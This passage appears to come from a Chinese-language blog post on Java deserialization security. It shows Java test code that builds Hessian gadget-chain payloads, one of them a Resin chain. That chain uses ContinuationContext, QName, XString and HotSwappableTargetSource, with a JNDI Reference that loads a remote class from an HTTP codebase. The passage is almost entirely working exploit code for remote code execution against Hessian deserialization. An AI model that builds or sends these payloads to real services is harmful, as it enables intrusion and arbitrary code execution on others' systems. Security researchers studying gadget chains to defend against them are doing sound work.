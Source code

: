         // 4. 通过反射将元素插入 HashMap，这样可以保证序列化时不会触发
        HashMap<Object, Object> map = new HashMap<>();
        Field tableField = map.getClass().getDeclaredField("table");
        tableField.setAccessible(true);
        tableField.set(map, nodeArray);
        Field sizeField = map.getClass().getDeclaredField("size");
        sizeField.setAccessible(true);
        sizeField.set(map, 2);
    
        byte[] bytes = hessianSerialize(map);
        hessianUnSerToObj(bytes);
    }
    ```

    当然，上述的 Resin 链也可以这么搞：
    ```java
    @Test
    public void testResin_Spring() throws Exception{
        // 1. 从底向上写 PoC，先完成 ContinuationContext 的实例化，它为 protected 类型，没法 new 出来
        Class<?> continuationContextClass = Class.forName("javax.naming.spi.ContinuationContext");
        Constructor<?> continuationContextDeclaredConstructor = continuationContextClass.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        continuationContextDeclaredConstructor.setAccessible(true);
        Reference reference = new Reference("TestRef.class", "TestRef", "http://localhost:8888/");
        // VersionHelper.loadClass() 中所需要的 Reference 最终来自 cpe.getResolvedObj()
        CannotProceedException cpe = new CannotProceedException();
        cpe.setResolvedObj(reference);
        Object continuationContext = continuationContextDeclaredConstructor.newInstance(cpe, new Hashtable<>());
    
        // 2. 实例化 QName，修改其 _context 为 ContinuationContext
        QName qName = new QName((Context) continuationContext, "EndlessShw", "EndlessShw");
        XString xString = new XString("EndlessShw");
        // 创建两个 HotSwappableTargetSource 以包裹 XString 和 QName
        HotSwappableTargetSource hstsXString = new HotSwappableTargetSource(xString);
        HotSwappableTargetSource hstsQName = new HotSwappableTargetSource(qName);
    
        // 3. 创建 HashMap，需要其 equals()
        Class<?> nodeClass = Class.forName("java.util.HashMap$Node");
        // HashMap 中的 Node 应该就是数据结构链表中的节点
        Constructor<?> nodeDeclaredConstructor = nodeClass.getDeclaredConstructor(int.class, Object.class, Object.class, nodeClass);
        nodeDeclaredConstructor.setAccessible(true);
        // 第一个参数是 Node 的 hash，保证不和 XString.hashCode 相同就行。最后一个填 null 就行
        Object nodeReadOnlyBinding = nodeDeclaredConstructor.newInstance(0, hstsQName, "EndlessShw", null);
        Object nodeXString = nodeDeclaredConstructor.newInstance(1, hstsXString, "EndlessShw", null);
        // 创建 Node[] table，但是 Node 是 protected，因此需要反射
        Object nodeArray = Array.newInstance(nodeClass, 2);
        Array.set(nodeArray, 0, nodeReadOnlyBinding);
        Array.set(nodeArray, 1, nodeXString);
    
        // 4. 通过反射将元素插入 HashMap，这样可以保证序列化时不会触发
        HashMap<Object, Object> map = new HashMap<>();
        Field tableField = map.getClass().getDeclaredField("table");
        tableField.setAccessible(true);
        tableField.set(map, nodeArray);
        Field sizeField = map.getClass().getDeclaredField("size");
        sizeField.setAccessible(true);
        sizeField.set(map, 2);
    
        byte[] bytes = hessianSerialize(map);
        hessianUnSerToObj(bytes);
    }
    ```

